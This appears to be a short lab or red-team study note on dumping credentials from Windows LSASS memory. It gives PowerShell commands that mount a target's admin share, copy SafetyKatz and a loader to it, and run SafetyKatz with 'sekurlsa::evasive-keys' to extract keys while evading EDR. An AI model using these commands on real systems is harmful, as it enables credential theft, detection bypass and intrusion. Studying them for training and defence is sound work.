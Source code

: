 # LSASS

When a user authenticates to a server, their credentials may be stored in the memory of the LSASS process. This process holds the following types of credentials:

* NT hashes,
* Kerberos tickets (TGT & ST),
* WDigest password in cleartext
* DPAPI cached keys.

When a user gets administrative privileges on a machine, they can dump the memory of the LSASS process to retrieve credentials that it stores. EDR will block this operation so they need to be bypassed.



## Dump secrets with SafetyKatz

To obfuscate the launch of the tool, use CRTE's loader. First upload Loader.exe and SafetyKatz.exe to the machine, for instance with mounting a network share:

```powershell
> net use x: \\us-mailmgmt\C$\Users\Public /user:us-mailmgmt\Administrator <password>
> echo F | xcopy C:\AD\Tools\Loader.exe x:\Loader.exe
> echo F | xcopy C:\AD\Tools\SafetyKatz.exe x:\SafetyKatz.exe
```

Then, connect to the server, for instance with winrs ([#winrs](../misc/ad-authentication.md#winrs "mention")) and run it:

```powershell
> .\Loader.exe -Path .\SafetyKatz.exe -args "sekurlsa::evasive-keys" "exit"
```

